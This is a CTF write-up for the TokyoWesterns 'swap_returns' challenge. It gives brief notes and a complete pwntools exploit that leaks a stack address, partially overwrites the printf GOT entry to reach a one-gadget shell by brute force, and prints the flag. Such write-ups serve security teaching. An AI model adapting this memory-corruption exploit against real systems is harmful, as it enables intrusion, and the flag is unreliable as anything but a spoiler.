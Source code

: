 # Swap returns
* Swap `atoi` , `printf` to leak `stack`.
* Swap( a , &a ) -> *a = a.
* Swap( `0x601526` , `&0x601526` ).
* Swap( `0x601526 - 6` , `printf GOT - 6` ).
* `printf -> 0x56510` , `one gadget -> 0x45526`.
* Overwrite `printf GOT` last two byte to `0x1526`, gues it add with carry.
* With probability approx 1/16.
```python
#!/usr/bin/env python
from pwn import *

# TWCTF{unlimited_SWAP_Works}

e = ELF( './swap_returns' )

host , port = 'swap.chal.ctf.westerns.tokyo' , 37567
#y = remote( host , port )

context.arch = 'amd64'

def st( a , b ):
    y.sendafter( ':' , '1' )
    y.sendlineafter( ':' , str( a ) )
    y.sendlineafter( ':' , str( b ) )

def sw( a , b ):
    y.sendlineafter( ':' , str( a ) )
    y.sendlineafter( ':' , str( b ) )


while True:
    y = remote( host , port )

    y.sendafter( ':' , '5' )

    st( e.got['atoi'] , e.got['printf'] )

    y.sendafter( ':' , '2' )
    y.sendlineafter( ':' , '%p' )
    y.recvuntil( '0x' )
    stk = int( y.recvuntil( '1.' )[:-2] , 16 )
    success( 'stk -> %s' % hex( stk ) )
    a = stk + 0x2a
    b = a + 8

    sw( e.got['atoi'] , e.got['printf'] )
    y.sendafter( ':' , '7\n' )

    bss = 0x600000
    st( bss + 0x1526 , a  )
    y.sendafter( ':' , '2' )
    st( bss + 0x1526 - 6 , e.got['printf'] - 6  )
    y.sendafter( ':' , '2' )
    y.sendafter( ':' , '7' )

    try:
        sleep( 0.5 )
        y.sendline( 'echo ABC' )
        print y.recvuntil( 'ABC' )
        y.interactive()
        y.close()
    except:
        y.close()

```